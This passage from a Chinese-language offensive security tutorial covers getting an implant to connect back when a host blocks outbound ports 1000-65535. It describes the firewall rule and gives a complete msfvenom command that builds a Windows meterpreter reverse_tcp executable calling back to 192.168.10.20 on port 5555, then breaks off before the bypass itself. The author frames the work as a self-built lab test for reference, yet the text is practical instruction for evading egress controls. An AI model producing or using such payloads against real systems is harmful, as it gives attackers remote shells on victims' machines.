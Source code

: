 ## 3.3. 限制端口上线

在一些情况下，管理员是把一些无用的端口关闭，或者说开放一些白名单端口让一些授权的来通信，这里我们将对端口限制进行测试，测试环境毕竟是自己搭建的，而在真实的环境中多多少少会存在一些不同，所以也是仅作参考。

未演示的绕过方式，参考`3.1常见的绕过方式`自学操作，否则需要写的太多了。

### 3.3.1. 设置出站端口规则

至于设置规则这里我就不细说设置的流程了，我们先提前说一下背景，我们使用5555端口的马，而在主机上是禁止1000-65535端口对外通信的，那么我们就可以使用替换端口来通信。

通过下图可以看到我们是设定了一个禁止TCP协议1000-65535端口对外通信的规则。

![image-20230515134753417](assets/D54pdGekfmFIhJa.png)

### 3.3.2. MSF生成木马

这里我们利用MSF生成一个木马。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=5555 -f exe > msf.exe
```

![image-20230515135332817](assets/Dl9aJLFjZv15XNY.png)
